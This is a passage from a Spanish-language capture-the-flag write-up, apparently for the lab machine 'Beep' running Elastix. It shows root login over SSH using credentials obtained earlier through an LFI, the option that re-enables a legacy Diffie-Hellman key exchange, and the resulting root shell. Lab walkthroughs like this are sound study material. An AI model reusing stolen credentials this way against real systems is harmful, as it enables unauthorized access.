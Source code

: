 
Con esto ya somos el usuario **root** y podemos visualizar las flags.

Otro método de acceso al sistema es mediante la validación de reutilización de contraseñas; validando si con las credenciales que identificamos a partir del **LFI** nos dan acceso a través del servicio SSH como el usuario **root**.

```bash
❯ ssh root@10.10.10.7
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

Al ejecutar el comando `ssh root@10.10.10.7` nos aparece un error; sólo tenemos que agregar `-oKexAlgorithms=+diffie-hellman-group1-sha1` al comando para poder acceder:

```bash
❯ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# whoami
root
[root@beep ~]#
```

A este punto ya somo usuarios administradores y podemos visualizar las flags (user.txt y root.txt).
